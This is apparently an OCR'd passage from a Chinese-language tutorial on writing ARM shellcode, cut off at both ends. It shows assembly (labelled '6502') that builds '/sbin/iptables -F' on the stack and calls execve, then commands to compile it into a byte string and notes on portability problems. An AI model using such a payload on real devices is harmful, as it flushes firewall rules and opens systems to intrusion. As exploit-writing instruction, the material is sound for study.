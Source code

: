 ```6502 assembly 
    str r1, [sp]               /* "ptab" => iptab" */
    sub sp,sp,#4
    str r2, [sp]               /* "in/i" */
    sub sp,sp,#4
    str r3, [sp]               /* "//sb" */

    mov r0, sp              /* r0 = 文件路径指针 */
    add r1, sp, #16         /* r1 = argv[-F] */
    eor r2, r2, r2          /* r2 = NULL (envp) */

    sub sp,sp,#4
    str r2, [sp]               /* NULL */
    sub sp,sp,#4
    str r1, [sp]              /* "-F" 参数 */
    sub sp,sp,#4
    str r0, [sp]               /* "/sbin/iptables" 参数 */

    mov r1, sp              /* r1 = argv 指针 */

    mov r7, #11             /* execve syscall */
    svc #0
    
```


编译命令为

```bash 
/opt/cross/arm-linux-musleabi/bin/as -o payload.o payload.asm 
/opt/cross/arm-linux-musleabi/bin/ld -N -o payload payload.o 
/opt/cross/arm-linux-musleabi/bin/objcopy -O binary payload payload.bin
xxd -p ./payload.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | sed 's/^/b"/;s/$/"/'
```


或者用pwntools的asm函数编译它

```python 
from pwn import *
context(os='linux', arch='arm', endian='little', bits=32)
shellcode="""xxx"""
asm(shellcode)

```


但是这种方法会面临两个问题：

- 1、想要执行命令很费劲，需要手动把命令字节码写成小端字节序形势
- 2、指令的兼容性不好，ldr 指令不是所有arm架构都兼容，也可以把ldr指令换成其他指令，这会更复杂

最重要的是兼容性差，目标架构不同会出现各种问题

### 编译嵌入汇编

正常情况下定义一个字符串，编译器会把字符串保存到rodata段，在导出text段中生成的shellcode，因为缺乏字符串导致crash
